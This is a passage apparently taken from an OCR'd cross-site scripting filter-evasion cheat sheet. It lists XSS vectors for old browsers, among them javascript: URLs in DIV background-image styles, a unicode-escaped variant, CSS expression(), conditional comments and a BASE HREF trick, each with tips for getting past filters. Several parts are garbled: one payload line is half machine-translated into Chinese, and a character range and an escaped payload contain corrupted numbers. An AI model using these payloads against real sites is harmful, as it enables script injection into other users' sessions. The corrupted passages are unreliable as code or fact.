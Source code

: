 ```js
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

DIV Background-image with Unicoded XSS Exploit
This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```js
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006
c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

## DIV Background-image Plus Extra Characters
Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):
```
St...yle=背景图片"xxx: 地址括号 js: 警报括号'your word'括号括号"
```

DIV Expression
A variant of this was effective against a real world cross site scripting filter using a newline between the colon and “expression”:

```js
<DIV STYLE="width: expression(alert('XSS'));">
```

Downlevel-Hidden Block
Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>

<![endif]-->
```
BASE Tag
Works in IE and Netscape 8.1 in safe mode. You need the // to comment out the next characters so you won’t get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like images/image.jpg rather than full paths. If the path includes a leading forward slash like /images/image.jpg you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```js
<BASE HREF="javascript:alert('XSS');//">
```

OBJECT Tag
If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:
